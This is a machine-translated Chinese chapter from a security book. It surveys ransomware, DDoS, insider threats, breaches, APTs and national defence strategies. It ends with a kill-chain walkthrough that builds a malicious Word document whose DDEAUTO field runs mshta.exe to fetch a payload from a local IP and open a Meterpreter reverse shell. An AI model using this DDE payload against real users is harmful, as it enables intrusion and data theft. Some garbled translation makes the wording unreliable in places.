









# 网络威胁形势和安全挑战

信息一直是竞争优势和持续成功的关键。当使用一系列大量且无可争议的数据来回答一个简单的问题时，通常会产生信息。情报是通过收集信息来提供可用于决策过程的预测而开发的。情报收集是预测未来最有力、最有效的做法。从古代智能到今天的人工智能，从世界大战到今天的网络战争，目标总是领先我们的对手一步。

让我们看看现实世界。中国政府和它的军队，中国人民解放军被指控窃取技术和商业机密，通常是从美国的私人机构窃取。你可能认为中国想摧毁美国，但那不是真的。中国只是想成为超级大国，想成为技术领导者。最终，它希望每一个美国人，甚至世界其他地方的人，都依赖于中国市场的技术。这导致中国间谍活动不断试图针对跨国企业和政府机构收集商业秘密。我们现在换个话题吧。政党不断通过高级分析从自己的公民那里收集信息，以预测即将到来的选举结果。很明显，世界正在随着互联网的变化而变化。

向云计算、物联网、认知计算和移动性的快速转型正在管理组织的最关键资产；然而，越来越多的互连应用程序和技术也导致可利用漏洞的数量增加。组织正在部署多种安全措施来定位和修复此类安全漏洞；然而，这是安全部队永无止境的工作。尽管如此，可以通过对潜在威胁进行分类来确定主要漏洞的优先级，但这需要高度的威胁情报实践。

网络安全是一个有 20 年历史的现象，但在过去的五年里，防御者保护自己免受新兴威胁的挑战，如零日攻击、加密勒索软件、数万亿字节的 DDoS 攻击、多载体恶意软件和高级社会工程。

这本书准备采纳安全观念的范式转变。尽管增加了另一层安全性，但这是从根本上改变安全思维模式的尝试。以互联网命名的最受欢迎的技术之一是区块链；然而，让区块链真正具有革命性的是它在加密货币之外的应用潜力。今天，有许多初创公司正在使用区块链技术来颠覆现有的商业模式和行业垂直领域，如云托管、金融服务、供应链、医疗保健、网络安全等。这本书对安全专家、安全产品工程师，甚至区块链爱好者都很有用。这本书的重点是带领读者了解当前的安全威胁形势，并且是用区块链技术克服一些最关键的安全挑战的实用方法。

在本章中，读者将了解以下主题:

*   当前的威胁形势
*   包括政府机构和企业在内的保护者如何准备保护自己的资产免受敌人攻击
*   从远程机器执行数据泄漏的实时攻击模拟

# 当前的威胁形势

在网络空间的新时代，技术变革已经成为持续安全创新和运营的核心因素。在互联汽车、物联网、移动和云的世界中，它为网络犯罪、有针对性的攻击和工业间谍活动开辟了一个焦点。一旦攻击者发现漏洞并确定如何访问应用程序，他们就拥有了为应用程序构建漏洞所需的一切，因此开发强大的漏洞管理至关重要。请记住，漏洞管理的有效性取决于组织跟上新出现的安全威胁和模型的能力。

如果员工被引诱点击通过电子邮件发送给他们的恶意链接，安全系统将不会产生影响。社会工程已被证明是进入目标网络内部的有效方法，安全部队在识别恶意进入方面面临着无尽的挑战。回到过去，在脸书和 LinkedIn 出现之前，如果你需要找到有关组织的信息，你不会在互联网上获得很多信息，因此社交网站的使用使得社交工程攻击更容易进行。

# 勒索软件

勒索软件是一种恶意软件，其中受害者计算机上的信息被加密，并在授予他们访问权限之前要求支付费用。勒索软件是最具趋势性和高回报的犯罪软件类型之一。在过去的两年里，它吸引了大量的媒体报道，主要是因为 WannaCry，NotPetya 和 Locky。WannaCry 勒索软件于 2017 年 5 月在全球多个系统中迅速传播。它瞄准了几个备受瞩目的组织，包括英国国民健康服务(National Health Service)、西班牙电话巨头 Telefonica、法国汽车巨头雷诺、美国领先的物流公司联邦快递(FedEx)、日本公司日立(Hitachi)等等。

勒索软件作者通过黑暗网络托管服务，这使得任何买家都可以创建和修改恶意软件。

暗网是互联网的一部分，无法通过搜索引擎获取，但需要一种特殊类型的匿名浏览器，称为 **Tor** 。换句话说，黑暗网络携带搜索引擎无法获取的未索引数据。Tor 浏览器基本上通过一系列代理服务器路由用户信息，使得用户身份无法识别和追踪。黑暗网站看起来和普通网站差不多，但是在命名结构上有一些区别。黑暗网站没有`.com`或`.net`或`.co`等**顶级域名**(**TLD**)；相反，他们只是使用以`.onion`结尾的网站。

# 黑客的货币化

根据网络安全商业报告，到 2019 年，勒索软件的损失预计将达到 115 亿美元。全球勒索软件业务的增长有几个驱动因素。为了赚得更快，网络犯罪分子已经停止自己制作恶意软件，并开始利用**勒索软件即服务** ( **RaaS** )，这种软件可以在黑市上买到。

这些市场不仅减少了专业罪犯的工作量，还允许非技术罪犯或脚本小子进行勒索操作。

攻击者制作一个带有预配置计时器的勒索程序，如果在截止时间前没有支付赎金，该程序将确保数据被销毁。攻击者还共享一个支付程序，该程序大多通过比特币钱包(因为数字加密货币钱包提供匿名性)。

# 万卡里

WannaCry 攻击是 2017 年 5 月 12 日发生的最大规模的勒索软件攻击。WannaCry 利用了 Windows 操作系统中的漏洞，首先由 NSA 发现，然后通过**影子经纪人**公开发布。它旨在利用 Windows SMBv1 和 SMBv2 中的漏洞，以便在网络中横向移动。直到 2017 年 5 月 24 日，150 个国家超过 20 万个计算机系统被感染。

# NotPetya

NotPetya 是勒索软件攻击的另一种形式，于 2017 年 6 月发起。NotPetya 勒索软件显然在几个方面类似于 Petya 病毒——它加密文件，并显示一个要求比特币恢复文件的屏幕。最初的感染方式是在 M.E.Doc(乌克兰领先的会计公司的软件)中植入后门。在通过 M.E.Doc 软件攻破系统后，NotPetya 使用了诸如 EternalBlue 和 EternalRomance 等工具在网络上传播。它还利用名为 Mimi Katz 的工具在受损的机器中查找管理凭据。

# 简单锁

SimpleLocker 是第一个没有影响任何计算机系统，但影响了几部手机的勒索软件攻击。黑客们首选的操作系统是 Android，这个勒索软件的来源被追踪到东欧。该木马的目标是插入平板电脑和手机的 SD 卡，自动抓取整套 sd 卡以获取特定文件，然后要求现金来解密数据。病毒通过谷歌 Play 商店进入设备。一旦安装，该病毒将扫描受影响设备的各种文件类型，并使用**高级加密标准** ( **AES** )加密这些文件，将文件扩展名更改为`.enc`。它还用来从各个设备收集各种其他信息，如 IMEI 号码、设备型号和制造商，并将这些信息发送到 C2 服务器。利用这种病毒的最新版本，黑客甚至可以访问设备摄像头，并显示受害者的照片，以吓唬他们支付赎金。这种威胁仍然潜伏在那里。

# 泰斯拉

在 CryptoLocker 之后的一年内，一个新的威胁出现了，那就是 **TeslaCrypt** 。起初，许多人认为它是加密柜的一个维度，但是，后来，它被赋予了一个新的名字——TeslaCrypt。这个勒索软件针对的是不同的人群——*铁杆游戏玩家*。TeslaCrypt 瞄准并影响了与视频游戏相关的辅助文件。其中包含保存的游戏文件、地图、任何与游戏相关的可下载内容等等。这种勒索软件的独特之处在于，这种勒索软件的创作者不断提高特洛伊木马的影响力，并在攻击进行的同时填充那里的循环漏洞。

# 密码锁

CryptoLocker 是一个大规模的勒索软件，据信于 2013 年 9 月 5 日首次发布在互联网上，通过电子邮件附件和 Gameover Zeus 僵尸网络进行培养。它对运行在 Microsoft Windows 上的系统产生影响，并通过恶意的电子邮件附件传播，用于使用 RSA 加密对用户本地和网络驱动器上存储的某些类型的文件进行加密。CryptoLocker 于 2014 年 5 月底通过 **Tovar** 行动被移除，该行动摧毁了 Gameover Zeus 僵尸网络。据报道，CryptoLocker 成功地向受害者勒索了 300 多万美元。

# 半机械人电脑

1989 年，一个名为 PC Cyborg 的特洛伊木马被发现，它能够隐藏文件夹，然后加密 c 盘中的文件名。受害者必须向在巴拿马邮局注册的 PC Cyborg 公司支付 189 美元。

# 分布式拒绝服务(DDoS)攻击

DDoS 攻击是一种恶意尝试，通过淹没随机流量来中断服务器的合法用户流量。DDoS 与 DoS 的不同之处在于它的分布式本质，从几个独立的被入侵系统网络攻击一个目标。这些被入侵的计算机系统被称为**僵尸程序**，僵尸网络(botnet)指的是受同一恶意行为者控制的一组此类僵尸程序。

DDoS 攻击已经成为一种常见的危害，因为它们通常用于报复、勒索、激进主义，甚至用于网络战。2016 年 10 月，领先的 ISP Dyn 的 DNS 遭到了来自数百万个僵尸程序的一波 DNS 查询的轰炸。该攻击由 Mirai 未来组合僵尸网络执行，超过 100，000 台物联网设备受到攻击。

# 从脚本小子到地缘政治

关于 2016 年 10 月 26 日对 Dyn 的 DNS 基础设施发起的攻击，有许多理论。最敏感和最具影响力的 DDoS 攻击之一是针对 Dyn 的，Dyn 是一家总部位于美国的 DNS 服务提供商，导致包括 Twitter、Reddit、GitHub、亚马逊、网飞、PayPal 等在内的几个主要网站在美国大部分地区无法访问。关于谁是幕后黑手，有很多理论和说法。安全研究人员将责任归咎于脚本小子，然而，黑客 T2·杰斯特声称俄罗斯政府是这些攻击的幕后黑手。黑客组织 Jester 针对一次**民主党全国委员会** ( **DNC** )的黑客攻击丑化了俄罗斯外交部。

这不仅止于此。最近也有一些高调的破坏。卡塔尔的政治危机导致了半岛电视台网站的 DDoS 攻击。法国总统选举因对《费加罗报》和《世界报》网站的攻击而中断。

# 发起 DDoS 的便利性

你可以通过支付每小时 10 美元、200 美元或一整周 600-1200 美元来发起 DDoS 攻击。黑暗网络上的一些攻击者提供 DDoS 雇佣服务，这使得发起 DDoS 攻击变得容易。

那些想用大流量轰炸目标的人会按使用僵尸网络的每秒钟收费，而不是按小时收费。

# 主要目标国家

攻击者可以入侵计算机并制作自己的机器人。这些机器人被用来进行侦察，网页抓取，甚至 DDoS 攻击。重要的是要明白，拥有大量被入侵系统的国家应该了解它们的全球风险指数。以下是由领先的 DDoS 保护提供商 Incapsula 提供的 2017 年 Q2 全球 DDoS 威胁格局图:



仅在 2017 年，全球就有 33%的企业受到了 DDoS 攻击的影响。与 2016 年相比，这一数字翻了一番，其中受 DDoS 攻击影响的企业数量翻了一番。

# 内部威胁

任何形式的威胁都可能来自组织内部，而且不仅限于怀有恶意的员工；它甚至可以是承包商、前雇员、董事会成员、股东或第三方实体。

# 定义内部威胁的更多方法

CERT 的*减轻内部威胁常识指南*将内部人员定义为符合以下标准的现任或前任员工、承包商或业务合作伙伴:

*   已经或已经授权访问组织的网络、系统或数据
*   以对组织信息或信息系统的机密性、完整性或可用性产生负面影响的方式，故意超出或故意使用该访问权限

# 内部威胁特征

在描述之前，理解对它的需求是很重要的，这种需求是由美国国防部在 2000 年提出的，也是 CERT 部门开始研究的时候。要深入了解内部威胁概况及其相应行为，请查看以下链接，网址为[https://CCD Coe . org/sites/default/files/multimedia/pdf/Insider _ Threat _ Study _ CCD Coe . pdf](https://ccdcoe.org/sites/default/files/multimedia/pdf/Insider_Threat_Study_CCDCOE.pdf)。

来自组织内部的恶意威胁，如来自雇员、前雇员、合作伙伴、合作伙伴等，不一定来自外部来影响组织的系统。这种攻击比其他恶意软件更具威胁性，因为这种攻击来自有权访问主系统的人，他们拥有允许他们以合法方式绕过安全的知识。内部威胁无处不在。如果有人说他们不容易受到内部威胁，那么他们可能实际上并不知道什么是内部威胁，也不知道它对组织有多致命。所谓的内部人员可能会为了个人利益而试图访问机密文件。这种收益可以是向竞争对手出售信息，也可以是窃取信息供内部人员个人使用。任何组织中的流失率都处于一个合理的水平。人们每隔一两年就会离开或加入公司。这为员工提供了一种动力，让他们将信息的某些部分保密，因为员工认为他们有权保留这些信息，仅仅因为他们已经对这些信息进行了大量的工作。说到内部威胁，就连美国政府也没有免受内部威胁。2012 年发布的一份报告称，大多数内部威胁实际上都发生在员工的工作时间。由于技术的发展使得识别入侵或攻击的源头变得很容易，所以没有证据，也没有在所有案例中识别出罪犯的数量。

# 数据泄露

2017 年，波耐蒙研究所(Ponemon Institute)一项名为*网络犯罪成本研究*的研究显示，目前全球数据泄露的平均成本为 362 万美元，实际上比 2016 年下降了 10%。

数据泄露可能涉及敏感的公司文档、技术蓝图、知识产权、商业机密甚至电子邮件的泄露。这在数量上一直是巨大的，对企业的影响甚至更大。老练的攻击者能够为目标制造高度定制的恶意软件，并且他们还设法悄悄地交付恶意软件。

根据 Mandiant 的 M-Trend 2017 报告，大多数受害者组织都是由自己员工以外的人通知的。超过 53%的违规是由外部来源发现的。组织应该制定主动的违规管理计划，以便在外人通知之前检测到违规行为。越早发现，组织就能节省越多的资金。Ponemon Institute 还建议，组织应该致力于在 100 天内确定违规行为。在这段时间内检测一次违规的平均成本是 599 万美元，但对于那些没有工具来检测的人来说，平均成本上升到 870 万美元。数据泄露有多种发生方式，以下是一些最常见的原因:

*   **恶意攻击**:对手可以发起恶意软件或无恶意软件的攻击，利用应用程序漏洞泄露敏感信息。
*   安全系统薄弱:攻击者本质上变得更加先进和持久。攻击者可以使用窃取的凭证，看起来像网络中的合法用户，从而绕过现有的安全系统，如防火墙、**入侵防御系统** ( **IPS** )和端点安全。
*   **人为错误**:根据 2017 年威瑞森数据泄露调查报告，88%的数据泄露与人为错误有关。所有组织都必须处理人为错误。

# 最近值得注意的数据泄露事件

最近一些最引人注目的数据泄露事件如下:

*   【2017 年 9 月的 Equifax:美国三大信用机构之一的 Equifax 遭遇违规事件，影响 1.43 亿消费者。一个未知的威胁组织通过利用 Apache Struts CVE-2017-5638 的漏洞成功危及 Equifax 在线服务。由于被盗数据的敏感性，包括**社会安全号码** ( **SSN** )和驾驶执照号码，这是有史以来最严重的违规事件之一。
*   2017 年 7 月威瑞森:大约 1400 万威瑞森用户可能受到数据泄露的影响。被入侵的服务器由以色列的 NICE 系统公司管理。
*   **Edmodo 2017 年 5 月 31 日**:超过 7800 万用户的信息从教育平台 Edmodo 遭到泄露。当一名被称为 **nclay** 的黑客被发现以 1000 美元的价格在黑暗网络上出售 7700 万个 Edmodo 账户时，这一消息被公开报道。
*   **Verifone 2017 年 3 月 7 日**:在美国使用的**销售点** ( **POS** )信用卡终端的领先制造商 Verifone 发现其内部网络出现大规模数据泄露。有消息称，有证据表明俄罗斯黑客组织参与了此次入侵。

# 数据泄露的影响

对于经历客户或合作伙伴信息或任何其他机密数据丢失的企业来说，后果是严重的，并且还在增长。独立安全研究公司 Ponemon Institute 对数据泄露受害者组织进行了一项调查，以了解数据泄露的影响:

*   **财务损失**:大约 113 家上市公司遭遇数据泄露，股价平均下跌 5 %，导致客户群流失
*   **品牌声誉损失** : 61%的首席营销官认为数据泄露的最大代价是品牌价值的损失
*   **失去客户信任**:消费者信任金融机构、医疗保健提供商，甚至政府机构来保护他们的个人信息和隐私

为了深入了解每种影响，请查看以下 Ponemon Institute 年的报告，网址为[https://www . centrify . com/media/4772757/pone mon _ data _ breach _ impact _ study _ uk . pdf](https://www.centrify.com/media/4772757/ponemon_data_breach_impact_study_uk.pdf)。【T2

# 高级持续性威胁(APT)

APT 使用多个阶段来侵入网络，避免被检测到，并长期获取有价值的信息:

*   **高级**:这是一种高级攻击，因为它由攻击者可获得的各种感染媒介和恶意软件技术组成，这些媒介和技术混合在一起会导致系统成功受损。
*   **持久**:之所以持久，是因为被攻陷的威胁始终存在。
*   **威胁**:这不是一个典型的、普通的系统危害。这种攻击对目标造成了真正的威胁，不仅因为它得到了高度组织化、资金充足且动机明确的犯罪分子的支持，还因为如果攻击成功，它会对目标造成超出正常系统清理范围的可怕后果。

随着技术的进步，新的方法已经出现，以跟踪公司实体和任何业务。这是以 APT 的形式完成的。APT 可以被描述为对组织网络的攻击，它允许未经授权的人长时间处于网络中，而不被注意或检测到。

# 是什么让 APT 如此与众不同？

基于对目标、目的和人为因素的选择，apt 不同于常规的网络罪犯:

*   **目标**:根据金融、政治、地缘政治、监视和安全情报利益选择目标，以获取高价值信息
*   **目标**:APT 的目标不是简单地进出，而是获得对网络资源的长期访问权，并使自己不被安全管理员发现
*   **人为因素**:这是整个 APT 操作的关键因素，因为操作可能通过鱼叉式网络钓鱼甚至内部威胁来进行

有关数据泄漏的更多信息，请访问位于[的链接:http://about-threats . trend micro . com/cloud-content/us/ent-primers/pdf/how _ do _ threat _ actors _ steal _ your _ data . pdf](http://about-threats.trendmicro.com/cloud-content/us/ent-primers/pdf/how_do_threat_actors_steal_your_data.pdf)。

# 防御者视角

在了解了新出现的威胁形势和一些最有效的网络攻击后，研究我们自己的防御很重要。这些威胁组织已经获得了发现组织资产所需的一切，然后找到相应的漏洞来制造他们的武器。这导致了对非适应性组织的巨大关注，甚至超过几十年，但让我们接受这样一个事实，即有很多机构在实现网络卫生和更好的网络防御生态系统方面表现出色。让我们关注其中的一些机构，包括政府和企业。

# 政府

政府电子系统已经成为几个外国安全机构收集情报的目标。随着互联技术的日益普及，政府系统也面临着攻击面不断增加的挑战。政府当局必须更好地保护其关键资产。

# 美国

美国总统唐纳德·特朗普于 2017 年 5 月 11 日签署了一项行政命令，内容包括加强联邦网络的网络安全，强调问责制，调整框架以改善其关键基础设施，并实现现有网络安全系统的现代化。国防部还提出了自己的加强网络防御和网络威慑态势的战略，其中包括三个主要的网络任务，如下图所示:



网络任务部队计划到 2018 年组建 133 支队伍

要了解更多关于国防部加强其网络防御和网络威慑态势的战略，请点击链接[https://www . defense . gov/News/Special-Reports/0415 _ Cyber-Strategy/](https://www.defense.gov/News/Special-Reports/0415_Cyber-Strategy/)。【T2

# 联合王国(英国)

随着 2016-2021 年国家网络安全战略(T1)(T2，NCSS，T3)的出台，英国政府计划使其国家变得安全和有弹性。这一愿景概括为以下三个目标:

*   **保卫网络空间**:这是用来确保英国的网络、数据和系统得到保护和恢复。由此，英国公民、企业和公共机构应该有足够的专业知识和能力来保护自己。
*   **威慑对手**:用于探测、了解、调查和瓦解针对英国的网络威胁。
*   **发展其能力**:凭借其自我维持的人才库，它提供必要的技能来帮助公共和私营部门的英国国民。

要深入了解英国 NCSS 计划，请点击链接 https://www . gov . UK/government/publications/national-cyber-security-strategy-2016-to-2021。【T2

# 欧洲

欧盟网络与信息安全局(T1)(**ENISA**)是欧盟成员国和欧盟机构在网络与信息安全方面的专业知识和卓越中心。有一些主要的值得注意的倡议，如**年度隐私论坛** ( **APF** )、 **ENISA 威胁前景** ( **ETL** )和赛博欧洲——一项旨在保护欧盟免受协同网络攻击的泛欧洲演习。

在 2018 年，**通用数据保护条例** ( **GDPR** )将取代数据保护指令 95/46/EC，在其扩大的地域范围内进行以下变更——处罚、同意、违规通知、访问权、被遗忘权、数据可移植性、设计隐私和数据保护官员。要深入了解 GDPR 的各个垂直领域，请访问 https://www.eugdpr.org/key-changes.html[的链接。](https://www.eugdpr.org/key-changes.html)

# 印度

2017 年 2 月，印度政府的**计算机应急响应团队** ( **CERT-In** )启动了 *Cyber Swachhta Kendra* ，这是一个僵尸网络清理和恶意软件分析中心，旨在通过检测和清理用户端点中的僵尸网络来创建一个安全的印度网络空间。要了解更多关于印度机器人清洁计划的倡议，以及其他机构如何帮助印度政府实现这一目标，请访问链接[http://www.cyberswachhtakendra.gov.in/](http://www.cyberswachhtakendra.gov.in/)。 [](http://www.cyberswachhtakendra.gov.in/) 

# 共同的

随着移动性、云和物联网的快速适应，企业面临的潜在威胁越来越多。事实上，一些最流行的技术，如**自带设备** ( **BYOD** )使得内部威胁的概率和得分更高。即使在预防性安全上花费了数百万美元，它仍然无法提供完全的保证，这使得组织探索各种新兴的安全防御技术，以检测和打击成功绕过现有安全系统的高级威胁。在许多跨国组织中，**首席信息安全官** ( **CISO** )同时身兼数职。2018 年，每个 CISO 都将做出一些关于其组织安全的关键决策。

这里提到了一些新兴的安全防御措施。

# 端点检测和响应(EDR)

EDR 是一种解决方案，旨在检测和删除网络中的恶意活动。EDR 解决方案通常包括以下四种功能:

*   通过持续监控终端来检测威胁
*   收集和调查日志，并将它们与每个端点活动的历史事件进行比较和关联
*   响应资源的危险尝试并将其从网络中移除
*   终止未授权的进程，将端点置于正常状态

# 欺骗技术

欺骗已经被古代军队用于世界大战，现在又被用于网络世界。简而言之，这是一种允许攻击者穿透诱饵目标系统的技术。通过欺骗，企业可以检测到攻击者，并深入了解他们的行为和产品，这将有助于提高他们的防御能力。这可以通过多级堆栈进行扩展，包括网络设备、端点和应用程序。

# 网络威胁情报(CTI)

CTI 是一种分析对手能力的方法。在网络空间中，它通常以一种危害指标的形式传递，包括恶意的 IP 地址、域名、哈希等等。对于组织来说，了解他们的资产、人员和每个连接的第三方至关重要，这样他们就可以准备自己的威胁情报并计划加强防御。

# 现场攻击执行

在最近的攻击中，对手运行了从 Microsoft Word 文档执行的任意代码，而没有使用任何宏或脚本。这项技术是一个名为**动态数据交换** ( **DDE** )的合法的微软 office 功能。

让我们试着从网络杀伤链的角度来看这次攻击。网络杀伤链用于描述攻击阶段:

*   **侦察**:这是一个计划阶段，攻击者通过观察或其他探测方法收集关于某事物的信息。网络攻击规划和侦察通常包括对目标进行研究，通常使用开源信息收集工具，如 Google 和 Shodan，以及通过搜索公开可用的数据，如公告和社交媒体、电子邮件的公司简介和电子邮件收集。
*   **武器化:**在这个阶段，威胁行动者计划正确的攻击方法。威胁参与者甚至可以计划利用员工的电子邮件进行网络钓鱼，甚至进行驾车下载攻击。在我们的例子中，首先，我们将创建一个恶意文档。在空白文档中，转到插入|快速部件|字段...选项卡，如以下截图所示:



在字段名对话框中，选择=(Formula)选项来插入我们的 DDE 漏洞利用代码:



此后，您将在文档中看到一个包含错误的字段:！公式意外结束。右键单击该字段，并选择切换字段代码选项。您需要这样做，以便在文本字段中创建 DDE 对象有效负载，当文档打开时，它将启动恶意软件或我们选择的任何代码:



在文本字段中，输入以下代码:

```
DDEAUTO C:\Programs\Microsoft\Office\MSword.exe\..\..\..\..\windows\system32\mshta.exe "http://192.168.1.101:8080/8b0HTF3MdgqYqgK
```

然后，用您选择的任何名称保存文档，例如`Financial_Statement`:

*   **交付** : 端点是主要的交付方式，无论是通过从网站上的下载、有针对性的网络钓鱼攻击，还是通过安全的**虚拟专用网** ( **VPN** )通过员工拥有的设备进行感染。
*   **利用和安装**:在这个阶段，攻击者会利用一些软件或者任何人类的弱点让有效载荷运行。在 DDE 利用中，咨询发送包含恶意文档的电子邮件。当用户运行该文档时，对手将获得受害者机器的反向外壳。

让我们看看顾问如何在武器化阶段利用漏洞，以及顾问如何进入受害者的机器。咨询创建了恶意有效载荷文档，并通过电子邮件将其发送给受害者。看一下下面的截图:



当用户打开由咨询发送的文档时，在一条错误消息后执行负载，如以下屏幕截图所示:



如果用户选择启动恶意文档，将执行有效负载并打开一个 Meterpreter 会话:



**针对目标的行动**:这是威胁者成功获取组织敏感文件的途径。对手试图从受害者的机器中窃取数据。这里有许多机密文件，咨询机构试图泄露:


对手对受害者正在做的事情进行截图，并试图找出机器上正在运行的进程，如下面的截图所示:



# 新出现的安全挑战

每个组织都必须参与这场永无止境的对抗网络攻击者的竞赛。如果你不能让自己领先于你的对手，你很可能成为攻击的受害者。在未来几年，维权者必须做好准备，应对一些最新出现的安全挑战和威胁。这些内容如下:

*   **缓慢的安全适应**:与网络和云转型不同，网络安全解决方案并没有按照预期的速度发展。传统的网络分段已被简化的扁平架构所取代，大大降低了网络的复杂性。但是，安全解决方案仍然使用传统的基于区域的方法来减轻威胁。
*   **人为错误**:根据 IBM 安全服务报告，超过 95 %的被调查网络事件是由于人为错误造成的，例如系统配置错误和补丁管理不足。
